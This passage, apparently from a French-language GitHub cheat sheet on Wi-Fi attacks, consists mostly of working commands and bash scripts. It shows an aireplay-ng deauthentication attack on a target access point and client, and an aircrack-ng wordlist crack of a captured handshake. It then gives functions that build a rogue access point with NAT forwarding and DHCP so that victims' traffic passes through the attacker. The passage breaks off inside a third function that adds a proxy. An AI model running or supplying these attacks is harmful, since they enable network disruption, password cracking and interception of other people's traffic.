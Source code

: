 ```sh
sudo aireplay-ng --deauth 30 -a <mac AP> -c <mac Client> wlan1
```

### brute force d'un handshake capturé

```sh
aircrack-ng.exe -w wordlist.txt file.cap
```

### Script pour un rogue access point

```sh
function AP1 {

	#creation d'un Access Point
	echo -e "/!\ KALI MUST BE SET IN AIRPLANE MODE/WIFI DISABLED BEFORE.\nthe nat configuration of iptables is not flush for do that: iptables -t nat -D PREROUTING 1 "
	echo -e "syntax: AP1 <bssid/mac> <essid/APname> <canal> <iface>"
	ifconfig $4 down
	iwconfig $4 mode monitor
	rfkill unblock wlan
	airbase-ng -a $1 -c $3 --essid $2 $4 
}
export -f AP1

function AP2 {

	#creation d'un access point + acces internet
	echo -e "syntax: AP2 <bssid/mac> <essid/APname> <canal> <Wifi-Iface> <redirection-iface>"
	#creation de l'ap en arriere plan:
	AP1 $1 $2 $3 $4 &
	echo "please wait 10..."
	sleep 10
	#flush d'iptable et redirection de port:
	iptables -F && iptables -X
	iptables -P FORWARD ACCEPT
	iptables -P INPUT ACCEPT
	iptables -P OUTPUT ACCEPT
	iptables -t nat -A POSTROUTING -o $5 -j MASQUERADE
	#kernel fowarding
	echo 1 > /proc/sys/net/ipv4/ip_forward
	
	#configuration du rogue AP: puissance, ip, routage DHCP
	iwconfig wlan0 txpower 30
	ifconfig at0 10.0.0.1 netmask 255.255.255.0
	route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
	
	echo -e "default-lease-time 600;\nmax-lease-time 7200;\nsubnet 10.0.0.0 netmask 255.255.255.0 {\nrange 10.0.0.10 10.0.0.15;\noption subnet-mask 255.255.255.0;\noption broadcast-address 10.0.0.255;\noption routers 10.0.0.1;\noption domain-name-servers 8.8.8.8;\noption domain-name \"local\";\n}" > /etc/dhcp/dhcpd.conf

	echo -e "INTERFACESv4=\"at0\"\nINTERFACESv6=\"\"" > /etc/default/isc-dhcp-server 
	service isc-dhcp-server restart
	echo "Enjoy!"
}
export -f AP2

function AP3 {

        #creation d'un access point + acces internet + proxy
        echo -e "syntax: AP3 <bssid/mac> <essid/APname> <canal> <Wifi-Iface> <redirection-iface>"
        #creation de l'ap en arriere plan:
        AP1 $1 $2 $3 $4 &
```
